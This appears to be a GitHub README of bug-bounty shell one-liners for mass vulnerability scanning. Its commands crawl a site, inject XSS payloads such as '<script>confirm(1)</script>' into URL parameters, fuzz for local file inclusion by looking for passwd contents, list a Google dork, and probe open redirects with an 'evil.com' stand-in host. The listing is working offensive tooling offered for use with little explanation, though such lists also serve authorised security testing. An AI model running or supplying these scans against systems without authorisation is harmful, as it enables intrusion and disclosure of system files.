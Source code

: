 # BBH-commands
One-liners for finding various vulnerabilities

# Katana webcrawler to get all the metadata
katana -u https://testphp.vulnweb.com/ -o katana.txt 

# XSS using GF patterns
cat katana.txt | gf xss | grep 'source=' | qsreplace '"><script>confirm(1)</script>' | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host \033[0;31mVulnerable\n"; done

# LFI using GF patterns
cat katana.txt | gf lfi | tee lfi.txt
cat lfi.txt | qsreplace FUZZ | while read url; do ffuf -u $url -mr "root:x" -w /path/to/LFI_payloads.txt ; done

# Google Dork for LFI on Windows Server
site:http://example.com/ inurl:?filename= ext:aspx

# XSS with KXSS and Dalfox
cat katana.txt | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe

# Open redirects
cat katana.txt | grep -a -i \=http | qsreplace 'http://evil.com' | while read host; do curl -s -L "$host" -I | grep "evil.com" && echo -e "$host {Vulnerable}"; done

# XSS combined fuzzing
cat katana.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | tee combinedfuzz.json && cat combinedfuzz.json | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo -e "$host {VULNERABLE}\n" || echo -e "$host {Not Vulnerable}\n"; done

# Open redirects with Bhedak
cat katana.txt | grep -a -i \=http | bhedak 'http://redirect.com' | while read host; do curl -s -L "$host" -I | grep "redirect.com" && echo -e "$host {Vulnerable}"; done

# XSS with uro and freq
cat katana.txt | grep "=" | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | uro | qsreplace '"><img src=x onerror=alert(1);>' | freq
